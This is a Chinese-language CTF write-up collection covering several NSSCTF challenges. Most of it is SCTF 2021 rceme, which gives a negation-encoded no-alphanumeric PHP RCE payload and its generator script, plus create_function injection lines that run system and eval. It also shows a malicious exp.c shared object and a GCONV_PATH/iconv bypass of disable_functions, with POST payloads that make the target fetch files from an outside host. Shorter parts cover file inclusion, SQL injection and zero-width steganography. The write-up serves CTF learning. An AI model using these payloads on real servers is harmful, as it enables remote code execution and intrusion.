NSSCTF WP 9
===

## [WEB] [SCTF 2021] rceme

### 代码审计

开门源码:

```php
<?php
if(isset($_POST['cmd'])){
    $code = $_POST['cmd'];
    if(preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',$code)){
        die('<script>alert(\'Try harder!\');history.back()</script>');
    }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
        @eval($code);
        die();
    }
} else {
    highlight_file(__FILE__);
    var_dump(ini_get("disable_functions"));
}
?>
```

一段言简意赅的 rce WAF, 过滤了所有数字, 字母等, 这是一处显然的无字符 RCE;

### 无字符 RCE


遍历一下可用字符, 发现可用字符:

```php
<?php

for($i=1;$i<127;$i++){
    if(!preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',chr($i))){
        echo(chr($i));
    }
}
```

结果:

```
!#%()*.:;<@[\]_{}~
```

无字符 RCE payload 构造一般有几种: 取反 (`~`), 异或 (`^`), 自增 (`$[_]++`), 临时文件 (反引号);

这里异或, 自增, 临时文件都被 WAF 掉了, 应该考虑取反;

#### 无参函数

再看下一段正则, 需要输入为 `a(b(c()))` 的形式, 也就是需要**无参函数**;

> 无参函数之前做过一道类似的题目, 当时的想法是利用 `get_defined_vars()`, 参考链接: [NSS 2025 WP](https://r4x.top/2025/11/05/nssctf_wp7/#%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%20+%20RCE), 很可惜这里这个函数被 ban 掉了, 不过思路是可以复用的, 仍然可以想办法在某处携带恶意代码, 然后通过数字化, 取 `end()` 等手段;

这里参考了一下其他师傅的文档, 发现还有一个 `getallheaders()`, 会把 http 报文 header 中所有的变量展开, 例如:

```
Array
(
    [Accept-Language] => zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
    ...
    [Connection] => close
    [Host] => 127.0.0.1
)
```

此时使用 `var_dump(end(getallheaders()))` 就可以得到 `127.0.0.1` 这个结果, 可以通过构造 Header 来手动改变最后一个参数的值;

#### 可变参数绕过

> 参考: [sk1y: SUCTF 2021 rceme](https://blog.csdn.net/RABCDXB/article/details/123422405)

在 PHP > 5.6 版本中, 定义函数时使用 `...$a` 来表示接受可变数量的参数; 在这种情况下, 可以把 `$a` 当做数组处理, 接受 `foreach`, 例如:

```php
<?php

function sum(...$a){
    $c = 0;
    foreach ($a as $n){
        $c = $c + $n;
    }
    return $c;
}

echo sum(1,12,13);
```

结果:



结合 `create_function()` 和命令注入:

> 关于这个函数, 在前两天刚做到了相关的命令注入题目: [R4x: create_function 原理和命令注入](https://r4x.top/2025/11/12/nssctf_wp8/#create_function)

可以构造出这样的 exp:

```php
<?php
$a = ['', '}system("whoami");//'];

echo create_function(...$a);
```

或者也可以用 `call_user_func()`, 原理是一样的:

```php
<?php
$a = ['','}eval($_POST[1]);//'];
$str = serialize($a);
echo $str;
```

#### 取反构造 payload

使用 `Firebasky` 师傅的代码:

```python
# -*- coding: utf-8 -*
# /usr/bin/python3
# @Author:Firebasky
exp = ""


def urlbm(s):
    ss = ""
    for each in s:
        ss += "%" + str(hex(255 - ord(each)))[2:]
    return f"[~{ss}][!%FF]("


while True:
    fun = input("Firebasky>: ").strip(")").split("(")
    exp = ''
    for each in fun[:-1]:
        exp += urlbm(each)
        print(exp)
    exp += ")" * (len(fun) - 1) + ";"
    print(exp)
    # call_user_func(...unserialize(end(getallheaders())));
```



稍微修改一下 payload, 把 `...` 移到外面来:

```
[~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c][!%FF](...~[%8a%91%8c%9a%8d%96%9e%93%96%85%9a][!%FF]([~%9a%91%9b][!%FF]([~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c][!%FF]())));
```



执行成功, 不过其他的有用函数都被杀了, 下一步需要绕过 disable_functions

### 动态链接 disable_functions

disable_functions 只能禁用 php 相关函数, 通过加载 SO 并调用系统 API 可以**绕过 php 直接使用系统调用**;

> 参考自: [Sk1y: 使用动态链接绕过 disable_functions](https://blog.csdn.net/RABCDXB/article/details/123422405)

#### 编译环境文件

exp.c:

```c
// exp.c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  puts("pwned");
  system("bash -c '/readflag > /tmp/sapp'");
  exit(0);
}
```

---

```bash
gcc -shared -fPIC exp.c -o exp.so
```

#### iconv_open

php 在执行 `iconv` 函数时，实际上是调用 glibc 中的 `iconv` 相关函数, 其中一个重要函数是 `iconv_open`:

> `iconv_open` 函数首先会找到系统提供的 gconv-modules 文件，这个文件中包含了各个字符集的相关信息存储的路径，每个字符集的相关信息存储在一个 .so 文件中，即 gconv-modules 文件提供了各个字符集的 .so 文件所在位置。
> 然后再根据 gconv-modules 文件的指示去链接参数对应的 .so 文件。
> 之后会调用 .so 文件中的 `gconv()` 与 `gonv_init()`函数。
> 然后就是一些与本漏洞利用无关的步骤。

linux 系统提供了一个环境变量：`GCONV_PATH`，该环境变量能够使 glibc 使用用户自定义的 `gconv-modules` 文件，因此，如果指定了 `GCONV_PATH` 的值，`iconv_open` 函数的执行过程会如下：

> - `iconv_open` 函数依照 `GCONV_PATH` 找到 gconv-modules 文件。
> - 根据 `gconv-modules` 文件的指示找到参数对应的 `.so` 文件。
> - 调用 `.so` 文件中的 `gconv()` 和 `gonv_init()` 函数。

**`gconv-modules` 文件格式**:

```
module  自定义字符集名字（大写）//    INTERNAL    ../../../../../../../../tmp/自定义字符集名字（小写）    2
module  INTERNAL    自定义字符集名字（大写）//    ../../../../../../../../tmp/自定义字符集名字（小写）    
```

此处:

```
module  PAYLOAD//    INTERNAL    ../../../../../../../../tmp/payload    2
module  INTERNAL    PAYLOAD//    ../../../../../../../../tmp/payload    2
```

接下来需要将 `gconv-modules` 和 `payload.so` 放在` /tmp`和 `/var/www/html` 中;

#### 部署到靶机

在 vps 开启 http 服务:

```bash
cd /tmp
python -m http.server 4444
```

编辑靶机 payload 下载文件到 `/tmp`:

```
(POST)
1=$url=%22http://your-ip:port/exp.so%22;$file1=new%20SplFileObject($url,'r');$a=%22%22;while(!$file1-%3Eeof())%7B$a=$a.$file1-%3Efgets();%7D$file2%20=%20new%20SplFileObject('/tmp/exp.so','w');$file2-%3Efwrite($a);
```



```
(POST)
1=$url%20=%20%22http://47.108.39.75:4444/gconv-modules%22;$file1%20=%20new%20SplFileObject($url,'r');$a=%22%22;while(!$file1-%3Eeof())%7B$a=$a.$file1-%3Efgets();%7D$file2%20=%20new%20SplFileObject('/tmp/gconv-modules','w');$file2-%3Efwrite($a);%0D%0A
```



设定环境变量:

```php
putenv("GCONV_PATH=/tmp/");show_source("php://filter/read=convert.iconv.payload.utf-8/resource=/tmp/exp.so");
```

payload: 用伪协议的 `convert.iconv` 触发 之前提到的函数

```
(POST)
1=putenv("GCONV_PATH=/tmp/");show_source("php://filter/read=convert.iconv.payload.utf-8/resource=/tmp/exp.so");
```



最后用 `highlight_file()` 读出写入的目标 `/tmp/sapp`:

```
(POST)
1=highlight_file("/tmp/sapp");
```



成功, 这里执行的是 `ls /`, 要修改这个指令, 只需要修改前面的 exp.c 即可;

修改其中的指令为 `/readflag` 即可:



这道题应该是最近做到的每日一题里最难的, 不过收获也挺多;

例如  `Firebasky` 师傅的代码其实非常巧妙, 这里中扩号的作用是为了让 `[~%xx]` 可以被解析成正常的字符串数组, 并且完全不含任何引号; 还有 `[!%FF]` 是为了使读取在正确位置终止 + 让整个表达式合法解析;

此外, 利用 iconv 绕过 disable_functions 也是一种很重要的手法, 值得记录;

## [WEB] [玄武杯 2025] ez_include

### 题解(非预期)

```php
 <?php
stream_wrapper_unregister('php');

if(!isset($_GET['no_hl'])) highlight_file(__FILE__);

$mkdir = function($dir) {
    system('mkdir -- '.escapeshellarg($dir));
};
$randFolder = bin2hex(random_bytes(16));
$mkdir('users/'.$randFolder);
chdir('users/'.$randFolder);

$userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
$userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

$mkdir($userFolder);
chdir($userFolder);
file_put_contents('profile',print_r($_SERVER,true));
chdir('..');
$_GET['page']=str_replace('.','',$_GET['page']);
if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
    include($_GET['page']);
}

chdir(__DIR__);
system('rm -rf users/'.$randFolder);

?> 
```

代码逻辑: 创建一个临时随机名文件夹, 之后在其中一个可预测名字的文件中放入配置 `profile` 文件, 最后删除这个随机文件夹;

猜测 flag 在 `/flag`, 直接读出, 应该是非预期了;



## [MISC] [SWPUCTF 2021 新生赛] gif好像有点大

### 题解

下载附件, 一个 gif 文件, stegsolve 打开审计一下, 有一帧有二维码, 扫码得到 flag;

> `Analyse` 下的 `Frame Browser` 慢慢翻, 非常没有意义的题;

## [MISC] [UTCTF 2020] Zero

### 题解

用 vscode 打开附件, 发现有很多不可见零宽字符:



直接丢进工具一把梭:



得到 flag;

接下来简单了解一下**零宽字符隐写**:

### 零宽字符隐写

零宽字符隐写就是利用一串 **不可见的 Unicode 零宽字符序列** (`\u200b`、`\u200c`、`\u200d`...) 来编码信息。肉眼上看隐写前后的数据是一致的;

常用字符表:

| 字符     | Unicode                   | 名称 |
| -------- | ------------------------- | ---- |
| `\u200b` | ZERO WIDTH SPACE          | ZWS  |
| `\u200c` | ZERO WIDTH NON-JOINER     | ZWNJ |
| `\u200d` | ZERO WIDTH JOINER         | ZWJ  |
| `\ufeff` | ZERO WIDTH NO-BREAK SPACE | BOM  |

很多方案只用 ZWS 和 ZWNJ 来表示二进制 0 和 1。

一个典型的案例:

```
明文 → 字符编码（如 UTF-8）→ 字节序列 → 二进制字符串 → 0/1 映射为 ZW 字符 → 插入到宿主文本
```

## [WEB] [HBCTF 2017] 大美西安

### 题解

进入网站, 是一个登录界面, 打开源码, 有注释: `index.php?file=register.php`;

扫一下目录, 扫出 `upload.php`, `view.php`, `login.php`, `register.php`;

注册登录后, 点击收藏就可以下载一张图片, 抓包查看:



这个 `%E6%94%B6%E8%97%8F` 就是 "收藏" 两个字的 url 编码;

尝试改这个参数去下载其他数据, 看了下 bp, 居然是在 image id 处有 sql 注入, 真是学到了, 并且还是双写绕过:



带出 index.php:

```php
include("config.php");
$_POST = d_addslashes($_POST);
$_GET = d_addslashes($_GET);
$file  = isset($_GET['file'])?$_GET['file']:"home";
// echo $file;

if(preg_match('/\.\.|^[\s]*\/|^[\s]*php:|filter/i',$file)){
	   echo "<div class=\"msg error\" id=\"message\">
		<i class=\"fa fa-exclamation-triangle\"></i>Attack Detected!</div>";
		die();
}
$filename = $file.".php";
if(!include($filename)){
	if(!isset($_SESSION['username'])||!isset($_SESSION['userid'])){
	  header("Location: index.php?file=login");
	  die();
    }
}
```

带 `upload` 即可带出源码:

```php
<?php 
#define("DIR_PERMITION",time());
include("config.php");
$_POST = d_addslashes($_POST);
$_GET = d_addslashes($_GET);
 
$file  = isset($_GET['file'])?$_GET['file']:"home";
// echo $file;
if(preg_match('/\.\.|^[\s]*\/|^[\s]*php:|filter/i',$file)){
	   echo "<div class=\"msg error\" id=\"message\">
		<i class=\"fa fa-exclamation-triangle\"></i>Attack Detected!</div>";
		die();
}
 
$filename = $file.".php";
 
if(!include($filename)){
    
	if(!isset($_SESSION['username'])||!isset($_SESSION['userid'])){
	  header("Location: index.php?file=login");
	  die();
    }
?>
```

首先检查文件类型和后缀名。 然后文件重命名为 `/Up10aDS/random_str().jpg` 插入数据库。数据库结构为 *uid,image_name,location*;

用 `phar://` 传上去, 爆出表名, 然后就可以读 flag;
